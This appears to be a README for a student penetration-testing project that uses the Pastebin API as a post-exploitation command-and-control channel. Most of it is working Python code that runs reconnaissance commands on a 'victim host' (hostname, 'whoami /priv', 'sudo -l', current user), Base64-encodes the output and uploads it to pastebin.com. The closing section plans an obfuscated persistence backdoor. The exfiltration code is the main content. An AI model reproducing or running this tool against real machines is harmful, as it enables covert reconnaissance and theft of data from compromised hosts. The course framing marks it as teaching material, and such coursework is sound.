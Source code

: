 # Pastebin API Experiment as Post-Exploitation C2

## The Background

This project has been done to complete a GLS University Task which was given in
_Programming for Penetration Testing_.

Created by myself,
Felix Alexander (2301859253)


The project itself has a functionality to forward all the basic information data that can
be retrieved from the `victim host` to `Pastebin` with its own API.

Prerequisites:
* API Developer Key
* Pastebin Username
* Pastebin Password
* Arbitrary Data/Content

## Snippets Code Review

The following script is required to get OS Info of the victim, whether it's `Windows` or `Linux` or
`OS X`, with a little help from `sys` Python's module.

```python
def osinfo():
    poss_plat = {
      'linux':'Linux',
      'linux1':'Linux',
      'linux2':'Linux',
      'win32':'Windows',
      'cygwin':'Windows',
      'msys':'Windows',
      'darwin':'OS X',
      'os2':'OS X',
      'os2emx':'OS X'
    }
    return poss_plat[sys.platform]
  ```
  
  In order to retrieve what data that can be retrieved, we need to know how the desired data will be parsed
  from each of unique victim OS. Therefore, there's an OS classification for executing each command.
  The following snippets will do:
  
  ```python
  def execute_cmd(cmd):
      try:
        cmd = cmd.decode()
      except (UnicodeDecodeError, AttributeError):
        pass
      if cmd == "sudo -l":
        prc = subprocess.Popen(cmd, stdin = subprocess.PIPE , stdout = subprocess.PIPE, stderr = subprocess.PIPE, shell = True)
        out, err = prc.communicate()
        if re.search("incorrect",err.decode(),re.IGNORECASE):
          return b"Unprivileged / Not sudoers"
      prc = subprocess.Popen(cmd, stdin = subprocess.PIPE , stdout = subprocess.PIPE, stderr = subprocess.PIPE, shell = True)
      out, err = prc.communicate()
      return out


def info_gathering(os):
	command = []
	if os == "Windows":
		logged_user = getpass.getuser()
		command.append(b"Hostname:\n" + execute_cmd('hostname') + b"\n")
		command.append(b"Priv:\n" + execute_cmd('whoami /priv') + b"\n")
		command.append(b"Logged user (currently):\n"+logged_user.encode())
		cmd = base64.b64encode(b"".join(command))
		return cmd
	elif os == "Linux" or os == "OS X":
		logged_user = getpass.getuser()
		command.append(b"Hostname:\n" + socket.gethostname().encode() + b"\n")
		command.append(b"Priv:\n" + execute_cmd('sudo -l') + b"\n")
		command.append(b"Logged user (currently):\n"+logged_user.encode())
		cmd = base64.b64encode(b"".join(command))
		return cmd
```

After the desired data has been retrieved, it'll be encoded as Base64 Byte-Objects Strings, which will be forwarder to the
API.

## Pastebin API

The following script will handle the pastebin auth and the upload process, where all the prerequisites data will be processed as
JSON Data to be requested to the API Post URL.

```python
def pastebin_upload(tl, data):
      name = '' #fill your pastebin username
      pw = '' #fill your pastebin password
      api_key = ''  #fill your api dev key (from tab API)
      auth = 'https://pastebin.com/api/api_login.php'
      auth_json = {
        'api_dev_key':api_key,
        'api_user_name':name,
        'api_user_password': pw
      }
      r = requests.post(auth, data=auth_json)
      api_user_key = r.text
      paste_post = 'https://pastebin.com/api/api_post.php'
      paste_json = {
        'api_paste_name':tl,
        'api_paste_code':data.decode(),
        'api_dev_key':api_key,
        'api_user_key':api_user_key,
        'api_option':'paste',
        'api_paste_private':0
      }
      r = requests.post(paste_post, data=paste_json)
      try:
        print("Retrieving the link!")
        print(r.text)
      except:
        print("Failed")
```
Note that, there are 3 values that need to be filled (crucial). The auth URL is stored in the `auth` variable, and the
API Url which will be processed to receive the post data is stored in `paste-post` variable.

## TBA

I'm planning on adding some persistence mode that will assign a backdoor on each unique OS with obfuscated
Python bytecodes so that the attacker can still connect to the OS Victim.

## References
https://www.amazon.com/Black-Hat-Python-2nd-Programming/dp/1718501129 (pg. 146)
